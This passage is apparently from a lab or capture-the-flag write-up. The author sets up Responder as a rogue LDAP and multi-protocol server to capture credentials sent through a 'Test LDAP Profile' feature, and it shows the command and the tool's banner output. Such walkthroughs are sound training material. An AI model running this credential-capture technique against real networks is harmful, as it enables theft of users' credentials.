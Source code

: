At the top of the page, I find a button that says `Test LDAP Profile`. Perhaps, I could capture some kind of user credentials by running an LDAP server using [Responder](https://github.com/lgandx/Responder).

```bash
$ sudo ./Responder.py -i 10.10.14.197
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] You don't have an IPv6 address assigned.

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]
[...]
```
